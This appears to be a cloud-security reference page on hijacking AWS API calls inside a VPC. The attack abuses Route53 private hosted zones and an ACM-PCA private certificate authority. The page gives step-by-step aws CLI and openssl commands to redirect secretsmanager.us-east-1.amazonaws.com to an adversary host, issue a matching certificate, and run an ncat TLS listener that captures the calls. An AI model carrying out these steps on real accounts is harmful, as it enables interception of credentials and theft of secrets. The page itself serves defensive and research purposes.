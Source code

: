 ```yaml
---
author_name: Patryk Bogusz
title: AWS API Call Hijacking via ACM-PCA
description: By modifying the route53 entries and utilizing the acm-pca private CA one can hijack the calls to AWS API inside the AWS VPC
hide:
  - toc
---
```


# AWS API Call Hijacking via ACM-PCA

<div class="grid cards" markdown>
-   :material-shield-lock:{ .lg .middle } __Required IAM Permissions__

    ---

    - [route53:CreateHostedZone](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/route53/create-hosted-zone.html)
    - [route53:ChangeResourceRecordSets](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/route53/change-resource-record-sets.html)
    - [acm-pca:IssueCertificate](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/acm-pca/issue-certificate.html)
    - [acm-pca:GetCertificate](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/acm-pca/get-certificate.html)

-   :material-shield-plus:{ .lg .middle } __Recommended but not Required IAM Permissions__

    ---

    - [route53:GetHostedZone](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/route53/get-hosted-zone.html)
    - [route53:ListHostedZones](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/route53/list-hosted-zones.html)
    - [acm-pca:ListCertificateAuthorities](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/acm-pca/list-certificate-authorities.html)
    - [ec2:DescribeVpcs](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ec2/describe-vpcs.html)
</div>
<div class="grid cards" markdown>
-   :material-account:{ .lg .middle } __Original Research__

    ---

    [Hijacking AWS API calls](https://niebardzo.github.io/2022-03-11-aws-hijacking-route53/) by [niebardzo](https://twitter.com/niebardzo2)
</div>

!!! Note
    To perform this attack the target account must already have an [AWS Certificate Manager Private Certificate Authority](https://aws.amazon.com/certificate-manager/private-certificate-authority/) (AWS-PCA) setup in the account, and EC2 instances in the VPC(s) must have already imported the certificates to trust it. With this infrastructure in place, the following attack can be performed to intercept AWS API traffic.

Assuming there is an AWS VPC with multiple cloud-native applications talking to each other and to AWS API. Since the communication between the microservices is often TLS encrypted there must be a private CA to issue the valid certificates for those services. If ACM-PCA is used for that and the adversary manages to get access to control both route53 and acm-pca private CA with the minimum set of permissions described above, it can hijack the application calls to AWS API taking over their IAM permissions.

This is possible because:  

* AWS SDKs do not have [Certificate Pinning](https://www.digicert.com/blog/certificate-pinning-what-is-certificate-pinning)
* Route53 allows creating Private Hosted Zone and DNS records for AWS APIs domain names
* Private CA in ACM-PCA cannot be restricted to signing only certificates for specific Common Names

For example, Secrets Manager in us-east-1 could be re-routed by an adversary setting the secretsmanager.us-east-1.amazonaws.com domain to an IP controlled by the adversary. The following creates the private hosted zone for secretsmanager.us-east-1.amazonaws.com:
```
aws route53 create-hosted-zone --name secretsmanager.us-east-1.amazonaws.com --caller-reference sm4 --hosted-zone-config PrivateZone=true --vpc VPCRegion=us-east-1,VPCId=<VPCId>
```

Then set the A record for secretsmanager.us-east-1.amazonaws.com in this private hosted zone. Use the following POST body payload - mitm.json:

```
{
  "Comment": "<anything>",
  "Changes": [{
    "Action": "UPSERT",
    "ResourceRecordSet": {
      "Name": "secretsmanager.us-east-1.amazonaws.com",
      "Type": "A",
      "TTL": 0,
      "ResourceRecords": [{"Value": "<ip_of_adversary_instance_in_the_VPC>"}]
    }
  }]
}
```

One set TTL to 0 to avoid DNS caching. Then, the advisory uses this payload to change-resource-record-sets:
```
aws route53 change-resource-record-sets --hosted-zone-id <id_returned_by_previous_API_call> --change-batch file://mitm.json
```

Now, the adversary must generate the CSR and send it for signing to the ACM-PCA, CSR and private key can be generated with OpenSSL:
```
openssl req -new -newkey rsa:2048 -nodes -keyout your_domain.key -out your_domain.csr
```

For CN (Common Name), one must provide secretsmanager.us-east-1.amazonaws.com. Then one sends the CSR to acm-pca to issue the certificate:
```
aws acm-pca issue-certificate --certificate-authority-arn "<arn_of_ca_used_within_vpc>" --csr file://your_domain.csr --signing-algorithm SHA256WITHRSA --validity Value=365,Type="DAYS" --idempotency-token 1234
```

It returns the signed certificate ARN in the response. The next call is to fetch the certificate.

```
aws acm-pca get-certificate --certificate-arn "<cert_arn_from_previous_response>" --certificate-authority-arn "<arn_of_ca_used_within_vpc>"
```

Once one got the signed certificate on the disk as cert.crt, the adversary starts the listener or 443/TCP and sniffs the calls to the secretsmanager.us-east-1.amazonaws.com
```
sudo ncat --listen -p 443 --ssl --ssl-cert cert.crt --ssl-key your_domain.key -v
```

The calls can be then forwarded to the Secrets Manager VPCE to for example GetSecretValue and get unauthorized access to the data. The same action can be done with any AWS API called from the VPC - S3, KMS, etc.
